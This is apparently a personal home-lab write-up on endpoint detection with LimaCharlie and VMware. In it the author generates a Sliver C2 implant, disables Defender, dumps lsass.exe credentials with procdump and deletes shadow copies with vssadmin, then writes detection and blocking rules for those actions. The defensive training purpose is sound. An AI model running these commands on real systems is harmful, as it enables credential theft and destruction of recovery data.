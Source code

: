 # End Point Detection and Response with VMware and LimaCharlie

![Logo Bar](https://i.imgur.com/iePpCDH.png)

## Introduction

For this Lab I created a simple virtual envrionment using two VMware virtual machines and LimaCharlie end point detection and response (EDR). I added a sensore to ingest log data from our target VM, dropped a C2 payload created with Sliver, observed telemetry from the EDR, detected adversarial movements, and crafted detection and response rules.


## Architecture

The architecture of this lab consists of the following components:

- Windows 11 Virtual Machine (VMware)
- Ubuntu Server Virtual Machine (VMware)
- PuTTY SSH Client
- LimaCharlie End Point Detection and Response
- Sysmon


## Set up the virtual environment

1. Download and install VMware Workstation Pro 17.
    - I chose to buy the Pro version instead of the free trial since I plan on utilizing it a lot more in the future
2. Download and deploy a VMware evalustion version of Windows 11 from Microsoft.
3. Download and install Ubuntu Server 22.04.1
    - This specific versio of Ubuntu comes with the necessary packages preinstalled.
    - During the install process manually set the ipv4 address of the Ubuntu server so the IP address doesn't change during the lab
4. Set up the Windows VM
    - Disable Tamper Protection
    - Permanently disable Defender via the Group Policy Editor
    - Permanently disable Defender via Registry
    - Prevent the VM from going into standby via command prompt
      ![Disable Standby](https://i.imgur.com/zRszk5m.png)
    - Install Sysmon
    - Validate Sysmon is installed and running via Powershell with Get-Service sysmon64
      ![Validate](https://i.imgur.com/A2hozsA.png)
    - Check for presence of Sysmon Event logs
      ![Event Logs](https://i.imgur.com/VTBPH23.png)
    - Create a snapshot of the Winows VM to return to a clean point
5. Install LimaCharlie EDR on Windows VM
    - Create a free account with LimaCharlie and then create an organization with the Extended Detection and Response Standard template
    - Add a sensor. These are the primary input for data into LimaCharlie
      ![Add Sensor](https://i.imgur.com/ao00dka.png)
    - Download the sensore with Invoke-WebRequest in Powershell then install the sensor on our Endpoint via the Command Prompt.
      ![Add Sensor](https://i.imgur.com/vGFOpHH.png)
    - The new sensor is confirmed to be reporting in at this point.
    - Now we need to configure LimaCharlie to ship the Sysmon Event Logs along with its own telemetry
6. Set up the Attack System (Our Ubuntu Server)
    - Use PuTTY to access our Ubuntu VM through SSH
    - Move to root with "sudo su" command
    - Download Sliver command and control framework
    - Create a working directory for Sliver with mkdir command (mkdir -p /opt/sliver).
    - Once Sliver is installed into our new directory we can move to it and launch Sliver
    - Generate our payload once inside of Sliver with this command line "generate --http [Linux_VM_IP] --save /opt/sliver"
      ![Sliver](https://i.imgur.com/QSA7EuP.png)
    - Create a temporary web server with python (python3 -m http.server 80), then downlaod the payload on the Windows machine via Powershell

## Work The Lab

1. Start a Command and Control Session
    - After relaunching Sliver start an http listener in the console with the command "http"
    - Back on the Wndows VM I will just manually execute our C2 implant.exe within an administrative Powershell
    - We should see our C2 session appear in the Sliver console
      ![Sliver](https://i.imgur.com/9WzEhqH.png)
    - Entering the "session" command into the Sliver console we can take note of our session ID.
    - Next we can interact with our C2 session by using the command "use [session_id]" in the Sliver console
    - Now we can start exploring our windows system with some simple commands like "info", "whoami", and "getprivs", then identify our working directory with "pwd" and examine network conncetions with "netstat"
    - If we run the command "ps -t" we can view running processes on the Windows system and note how Sliver will highlight it's own processes in green and detect defensive tools in red. This is a good example of how attackers can become aware of defensive tools a victim might be using
      ![Sliver](https://i.imgur.com/9qPc4Km.png)
2. Observer Some EDR Telemetry 
    - Now we can hop into the LimaCharlie UI and check out some of the telemetry that has been collected from our end point
    - First look at some processes and spend some time exploring. Take note that LimaCharlie does a nice job of showing processes that are signed and ones that are not. A process that carries a valid signature is often going to be benign itself, although legitimate processes can be used to launch a malicious process or code. Below shows our payload as an unsigned processs (missing the green check) as well as an indicator that it is "listening".
       ![Sliver](https://i.imgur.com/cKMLdR0.png)
    - We can also view network connections from here and identify the destination IP this our payload process is communicating with
      ![Network Connection](https://i.imgur.com/rwyIODK.png)
    - Next we can explore the File System through Lima and find our payload in the downloads section. From there we can search the file hash in Virustotal although there is nothing found as we just created a new payload. This is a good time for a lesson, just because a hash is not found on Virustotal it does not mean that it is innocent.
    - We continue to explore through LimaCharlie and learn what it can show us and how we can further use the information to investigate as well as start to build detection and response.
3. Perform Some Adversarial Actions
    - Let's run a "getprivs" command and see what kind of privileges we have on the compromised host (Windows VM). The primary one we are looking for is SeDebugPrivilege, if this is enbaled then we should have all the privileges we need on the system. Fortunately for this lab we know we have this because we executed the payload in the Windows VM with administrative rights. Let's check it anyway.
       ![getprivs](https://i.imgur.com/5Q7oDwF.png)
    - Now that we know we have the privileges, let's make a move that is popular for stealingf credentials and dump the lsass.exe process from memory. Use the command "procdump -n lsass.exe -s lsass.dmp". This will dump the process from memory and save it locally on the C2 server. This step is really only done to detect the dump with LimaCharlie but it is also a good chance to later learn more about how this technique is used and try it for ourselves.
4. Let's Detect
    - We've done something malicious, now let's switch to Lima and examine it. Since lsass.exe is a sensitive process that is targeted by credential targeting tools, any good EDR will generate events for it.
    - Looking into the Timeline of the Windows VM in Lima we can filter for SENSITIVE_PROCESS_ACCESS events. For this lab there won't be much on the system that is legitimately accessing lsass so we can be assured that the events we see are from our procdump.
      ![lsass](https://i.imgur.com/meZi60L.png)
    - Knowing what the event looks like when credential access occurs we can use that information to create a detection and response rule in Lima which would alert us anytime actvity that matches occurs. The rules in Lima are written in YAML. Breaking the below rule down. First we have the detection portion of the rule: look for event type SENSITIVE_PROCESS_ACCESS (event) which ends with (op) lsass.exe (value) in the given (path). This rule as is very noisy in a real world scenario but for simplicity in this lab it works. The second part of the rule is the response which is a simple alert. We call out an (action) to report and the (name) should be LSASS access.
      ![lsassrule](https://i.imgur.com/4GVAxYP.png)
    - After putting the bad actor hat on once again and running our proc dump, we can go back to Lima and look at the Detections tab. Here we now see our newly created LSASS access detection rule reporting in after another credential access attempt
      ![lsassdetect](https://i.imgur.com/7q8K58D.png)
    - These last few steps have given us the framework to go and explore, seeing what more we can do with the C2 and what other rules we can craft as well as tune. I will surely be playing more with these in the near future and update this project but for now let's move on to a couple more attacks and rules, even throwing in some attack blocking!
5. Blocking Attacks with EDR
    - The most critical aspect of blocking with EDr certainly seems to be baselining the environment. False positives with a blocking rule in effect are far different than a simply alert which you can investigate while the enviroment goes along on it's merry way. Now we are talking abouta rule that can stop processes and cause real problems if it's just firing off on a mutlitude of false positives.
    - The rule we are going to create for this step involves Volume Shadow Copies. Volume shadow copies provide and eay way to restore files or a file system. This is one of the most attractive options for recovering from a ransomware attack and thus makes the deletion of the volume shadow copies a good sign of a ransomware attack.
    - We'll use a basic command to delete these "vssadmin delete shadows /all". This command is a good candidate for a blocking rule as it has low false positive rates and a high threat activity indicator. It's not a command that is commonly run in a healthy environment.
    - As in the past exercise we'll execute this commmand with our C2 session so we can later use its process in Lima to craft a detection and response rule.
    - After running the command on our C2 server, we jump back into the Lima Detection tab. The default Sigma rules should already have picked up on this activity which can be seen below.
      ![shadowcopies](https://i.imgur.com/lpybkfc.png)
    - Clicking on View Event Timeline we can quickly move to building a new detection and response rule. The detection portion of the rule is created automatically by Lima then we add the Response. The rule simply says when you see this then kill the parent process. Here is what the rule looks like:
      ![shadowrule1](https://i.imgur.com/xZwtJHL.png)
    - In a ransomware scenario this rule would eb effective because the parent process is liekly the payload or lateral movement which would be terminated.
    - There is however another and better way of writing this rule. the current rules relies on a literal matching of the string "vssadmin delete shadows /all". The weakness here is that even an extra space somewhere will break the rule. Taking this into consideration we can use the "contains" operator. This will avoid the literal issue.
      ![shadowrule1](https://i.imgur.com/FOmYnYo.png)
    
      
      
      
      
      
   





